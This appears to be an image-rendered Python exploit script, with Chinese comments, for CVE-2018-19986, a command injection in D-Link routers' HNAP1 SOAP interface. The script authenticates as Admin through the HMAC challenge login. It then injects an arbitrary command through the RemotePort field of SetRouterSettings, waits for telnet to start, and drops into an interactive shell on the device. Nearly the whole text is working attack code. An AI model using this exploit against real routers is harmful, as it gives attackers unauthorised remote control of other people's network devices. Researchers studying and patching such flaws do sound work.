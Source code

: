 ```
#构造一个action为request的请求发送给Login
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
data = r.text

#通过获取的publickey计算privatekey，根据privatekey计算口令的hmac(在上文中对应的是hmac_1)
challenge = str(data[data.find("<Challenge>") + 11: data.find("</Challenge>")])
cookie = data[data.find("<Cookie>") + 8: data.find("</Cookie>")]
publicKey = str(data[data.find("<PublicKey>") + 11: data.find("</PublicKey>")])
privateKey = hmac_md5(publicKey + adminPw, challenge).hexdigest().upper()
password = hmac_md5(privateKey, challenge).hexdigest().upper()

#构造action为login的请求，发送用户名和口令
headers["HNAP_AUTH"] = HNAP_AUTH("Login", privateKey)
headers["Cookie"] = "uid=" + cookie
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>Admin</Username><LoginPassword>'+password+'</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)

#登录成功后访问SetRouterSettings设置路由器的一些配置，其中RemotePort被设置为command
headers["Origin"] = "http://" + IP
headers["HNAP_AUTH"] = HNAP_AUTH("SetRouterSettings", privateKey)
headers["SOAPaction"] = '"http://purenetworks.com/HNAP1/SetRouterSettings"'
headers["Accept"] = "text/xml"

payload = open('{}.xml'.format("CVE-2018-19986")).read().replace('ip', IP).replace('COMMAND', command)
print '[*] command injection'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print(r.text)

print '[*] waiting 30 sec...'
time.sleep(30)

#利用成功之后，服务端已经开启了Telnet服务，攻击者可直接连服务器的Telnet
print '[*] enjoy your shell'
telnetlib.Telnet(IP).interact()
```